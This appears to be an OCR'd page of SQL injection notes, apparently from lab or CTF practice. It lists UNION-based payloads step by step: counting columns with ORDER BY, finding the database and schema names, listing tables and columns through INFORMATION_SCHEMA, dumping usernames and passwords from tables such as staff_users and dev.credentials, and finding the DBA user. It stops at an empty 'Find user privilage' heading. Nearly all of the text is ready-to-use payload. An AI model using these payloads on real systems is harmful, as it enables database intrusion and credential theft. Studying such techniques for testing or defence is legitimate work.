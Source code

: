 `0 UNION SELECT 1,2`

`0 UNION SELECT 'first','second'`

`0 UNION SELECT NULL,NULL`

Other examples

`UNION SELECT username, 2, 3, 4 from passwords-- '`

### Using ORDER 

keepn on increase number 1 until we dont see result meaning that number of columns dont exist

`' order by 1-- -`

### Get Database name

Get current database name using by webapp

`0 UNION SELECT 1,2,database()`

List all database names

`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`

You can query directly using dot syntax without switching database

`SELECT * FROM my_database.users;`

### Get Tables name

`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`

`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`

### Get Columns name

`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

### Dump Data / Get username and password

`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

`cn' UNION select 1, username, password, 4 from dev.credentials-- -`

### Find DBA user

`cn' UNION SELECT 1, user(), 3, 4-- -`

### Find user privilage
